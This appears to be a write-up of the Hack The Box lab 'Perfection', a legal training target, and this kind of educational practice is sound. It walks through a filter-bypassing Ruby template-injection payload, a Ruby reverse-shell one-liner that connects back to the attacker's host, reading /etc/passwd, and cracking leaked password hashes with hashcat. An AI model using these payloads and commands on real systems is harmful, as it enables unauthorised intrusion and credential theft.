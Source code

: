 ```yaml
---
title: HTB-Perfection
draft: false
tags:
  - htb
  - linux
  - easy
  - ssti
  - ruby
  - ruby-ssti
  - ssti-to-shell
  - hash-cracking
---
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/Perfection.png)

## Information Gathering
### Rustscan
Rustscan discovers SSH and HTTP running on target. 

```bash
┌──(yoon㉿kali)-[~/Documents/htb/perfection]
└─$ rustscan --addresses 10.10.11.253 --range 1-65535
.----. .-. .-. .----..---.  .----. .---.   .--.  .-. .-.
| {}  }| { } |{ {__ {_   _}{ {__  /  ___} / {} \ |  `| |
| .-. \| {_} |.-._} } | |  .-._} }\     }/  /\  \| |\  |
`-' `-'`-----'`----'  `-'  `----'  `---' `-'  `-'`-' `-'
The Modern Day Port Scanner.
________________________________________
: https://discord.gg/GFrQsGy           :
: https://github.com/RustScan/RustScan :
 --------------------------------------
😵 https://admin.tryhackme.com
<snip>
Host is up, received syn-ack (0.41s latency).
Scanned at 2024-05-16 23:39:15 EDT for 0s

PORT   STATE SERVICE REASON
22/tcp open  ssh     syn-ack
80/tcp open  http    syn-ack

Read data files from: /usr/bin/../share/nmap
Nmap done: 1 IP address (1 host up) scanned in 0.85 seconds
```
## Enumeration

### HTTP - TCP 80

The website provides service for calculating total grade in a class. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image.png)


Through `/weighted-grade`, we can input data and receive total grade as a result. 

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-1.png)

Total grade outputs as such:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-2.png)

## Ruby SSTI


Let's try fuzzing category parameter with [these payloads](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Server%20Side%20Template%20Injection/Intruder/ssti.fuzz)for SSTI:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-3.png)

Some of the payloads show different response length from the others:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-4.png)


When `<%= 7 * 7 %>` payload is sent, response says Invalid query paramaters:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-5.png)

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-6.png)

Let's try some payloads specifically for Ruby only, [from here](https://github.com/swisskyrepo/PayloadsAllTheThings/tree/master/Server%20Side%20Template%20Injection#ruby).

After some trials, we can tell that SSTI works when order of information input is changed and when we inject new line to the payload. 

Below is the payload that passes the filter:

```ruby
a
<%=system("pwd");%>
```

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-7.png)

I see that the payload is sent and returns **true**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-8.png)

Similarly, we can craft payload for reading /etc/passwd:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-9.png)

Payload runs successfully:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-10.png)

## SSTI Reverse Shell


Using [Reverse Shell Generator](https://www.revshells.com/),  we can spawn reverse shell as Susan:

`ruby -rsocket -e'spawn("sh",[:in,:out,:err]=>TCPSocket.new("10.10.14.14",1337))'`

On our netcat listener, reverse shell connection is made:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-11.png)

Let's make the shell more interactive through Python:

`python3 -c 'import pty; pty.spawn("/bin/sh")'`


## Privesc: susan to root

On Susan's home directory, there a directory named **Migration**:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-12.png)

Inside of it, there's a file named pupilpath_credentials.db and it shows password hash for Susan Miller:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-13.png)

Using `strings`, we can obtain several more password hashes for different users:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-17.png)

Before attempting to crack the above hash, let's do some more local enumeration.

### Local Enumeration

Below shows all the files owned by the current user but nothing looks interesting:

`find / -uid 1001 -type f -ls 2>/dev/null | grep -v "/proc*"`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-14.png)

Below searches for files with the name of the user "susan" in it:

`find / -name "*susan*" -type f -ls 2>/dev/null`

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-15.png)

`/var/mail/susan` looks interesting.

Email Susan reveals the password structure for the above discovered hash:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-18.png)



## Hash Cracking

Before moving on the cracking, let's prepare the hash for Susan:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/p1.png)

Below is the hashcat command that cracks the password:

`hashcat -m 1400 hash.txt -a 3 susan_nasus_?d?d?d?d?d?d?d?d?d`

`susan_nasus_?d?d?d?d?d?d?d?d?d`: This is the mask that specifies the format of the passwords we are trying to crack.

 `?d`: This represents a digit (`0-9`). Each `?d` is a placeholder for a single digit. we have nine `?d` placeholders, which means Hashcat will try all combinations of nine-digit numbers.

Given the mask, Hashcat will try passwords like:

- `susan_nasus_000000000`
- `susan_nasus_000000001`
- `susan_nasus_123456789`
- `susan_nasus_999999999`


Hashcat successfully cracks the password:

![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/p2.png)


We can not sudo into root with the cracked password:


![alt text](https://raw.githubusercontent.com/jadu101/jadu101.github.io/v4/Images/htb/perfection/image-19.png)

## References
- https://gtfobins.github.io/gtfobins/ruby/